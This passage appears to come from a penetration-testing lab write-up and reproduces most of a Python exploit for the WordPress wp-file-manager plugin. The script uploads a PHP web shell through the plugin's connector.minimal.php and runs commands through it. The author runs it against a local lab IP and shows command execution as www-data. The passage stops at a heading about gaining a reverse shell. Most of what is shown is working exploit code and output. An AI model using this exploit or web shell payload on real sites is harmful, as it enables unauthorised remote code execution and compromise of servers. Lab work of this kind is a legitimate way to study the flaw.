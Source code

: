 ```python
        soup = BeautifulSoup(r.text, 'html.parser')
        text = soup.get_text()
        print (text)

def exploit():
        global url
        url = sys.argv[1]
        command = sys.argv[2]
        upload_url = url+"/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"
        headers = {
                        'content-type': "multipart/form-data; boundary=----WebKitFormBoundaryvToPIGAB0m9SB1Ww",
                        'Connection': "close"
        }
        payload = "------WebKitFormBoundaryvToPIGAB0m9SB1Ww\r\nContent-Disposition: form-data; name=\"cmd\"\r\n\r\nupload\r\n------WebKitFormBoundaryvToPIGAB0m9SB1Ww\r\nContent-Disposition: form-data; name=\"target\"\r\n\r\nl1_Lw\r\n------WebKitFormBoundaryvToPIGAB0m9SB1Ww\r\nContent-Disposition: form-data; name=\"upload[]\"; filename=\"shell.php\"\r\nContent-Type: application/x-php\r\n\r\n<?php echo \"<pre>\" . shell_exec($_REQUEST['cmd']) . \"</pre>\"; ?>\r\n------WebKitFormBoundaryvToPIGAB0m9SB1Ww--"
        try:
                r=requests.post(upload_url,data=payload,headers=headers)
                #pprint(r.json())
                commandexec(command)
        except:
                print("[!] Algo ha salido mal...")

def help():
        print ("\n[*] Uso: python3",sys.argv[0],"\"url\" \"comando\"")
        print ("[!] Ejemplo: python3",sys.argv[0],"http://wordpress.local/ id")

if __name__ == '__main__':
        if len(sys.argv) != 3:
                help()
        else:
                exploit()
```

I executed the exploit to confirm command execution as `www-data`:

```shellscript
python3 51224.py http://192.168.1.16 id
```

**Result:**

```plaintext
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This confirmed successful command execution as the `www-data` user.

#### Gaining a Reverse Shell
